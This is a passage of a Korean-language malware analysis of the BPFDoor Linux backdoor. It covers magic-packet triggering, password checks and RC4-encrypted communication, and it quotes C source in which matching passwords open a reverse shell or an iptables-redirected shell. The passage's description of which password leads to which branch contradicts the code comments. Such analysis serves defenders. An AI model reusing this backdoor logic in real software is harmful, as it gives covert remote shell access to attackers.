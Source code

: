 ### 6. 매직 패킷 분석 및 명령 분기

> 매직패킷이란?:<br/>
> 매직 패킷이란 일반적으로 특정한 구조를 가진 네트워크 패킷을 의미하며, 이를 수신한 프로그램 또는 시스템은 미리 정의된 행동을 트리거하게 된다. 여기선 백도어 활성화 신호를 매직 패킷으로 보낸다.

- 위에서 설명한 반복문에서 패킷을 지속적으로 캡처하다가, 패킷이 (페이로드의 특정 위치에 `0x7255`나 `0x5293` 등의 flag 값이 존재하는) 매직 패킷으로 식별되면 패스워드를 비교하여 경우에 따라 다음 세 가지 행동을 수행한다:
  - `0`: 1번째 pass와 일치하는 경우, 연결 대상에 대한 역방향 쉘 연결(reverse shell)
  - `1`: 2번째 pass와 일치하는 경우,  iptables 명령어를 통해 로컬 포트를 리디렉션한 뒤 shell 제공
  - `2`: 둘 다 아닌 경우, UDP를 이용한 ping 메시지 응답

```c
int logon(const char *hash) {
        int x = 0;
        x = memcmp(cfg.pass, hash, strlen(cfg.pass));
        if (x == 0)
                return 0;
        x = memcmp(cfg.pass2, hash, strlen(cfg.pass2));
        if (x == 0)
                return 1;
 
        return 2;
}

cmp = logon(mp->pass);
switch(cmp) {
        case 1: // connect reverse shell 
                strcpy(sip, inet_ntoa(ip->ip_src));
                getshell(sip, ntohs(tcp->th_dport));
                break;
        case 0:  // getshell + iptables redirect
                scli = try_link(bip, mp->port);
                if (scli > 0)
                        shell(scli, NULL, NULL);
                break;
        case 2:  // UDP ping response
                mon(bip, mp->port);
                break;
}
```

## 7. RC4 기반 암복호화 통신

- BPFDoor는 통신 보안과 은폐를 위해 RC4 스트림 암호화를 사용한다. RC4는 키 스트림을 기반으로 입력 데이터를 XOR하여 암복호화를 수행한다.
• 매직 패킷의 pass 값을 RC4 키로 사용하여 송수신용 컨텍스트를 각각 초기화한다.

```c
rc4_init(mp->pass, strlen(mp->pass), &crypt_ctx);
rc4_init(mp->pass, strlen(mp->pass), &decrypt_ctx);
``````

• 이후 통신 과정에서 `cwrite()`와 `cread()` 함수가 각각 `write()`/`read()` 전에 RC4 처리를 수행한다.
